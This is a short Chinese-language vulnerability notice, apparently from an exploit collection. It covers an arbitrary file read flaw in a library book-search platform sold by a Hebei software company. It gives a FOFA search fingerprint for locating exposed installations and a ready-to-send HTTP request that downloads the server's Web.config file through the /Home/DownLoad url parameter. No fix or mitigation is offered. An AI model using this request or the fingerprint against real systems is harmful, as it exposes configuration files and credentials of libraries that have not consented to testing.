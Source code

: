 # 一、漏洞简介
河北兴图软件科技有限公司基于互联网+图书馆全新的理念自主研发了一系列网页版图书馆集群管理系统，正式推出基础版、标准版、增强版和专业版等版本，适合各类型图书馆需求。图书检索平台存在任意文件读取漏洞

# 二、影响版本
+ 图书检索平台

# 三、资产测绘
+ fofa`body="Images/public/yes.png"`
+ 特征

![](images/1724579424545-e9f8ab08-0234-45a8-b5a0-b39b77b1088d.png)

# 四、漏洞复现
```java
GET /Home/DownLoad?url=/Web.config HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
```

![](images/1724582427875-6ab0375e-03dd-4c13-a53b-5327a8cdcf07.png)

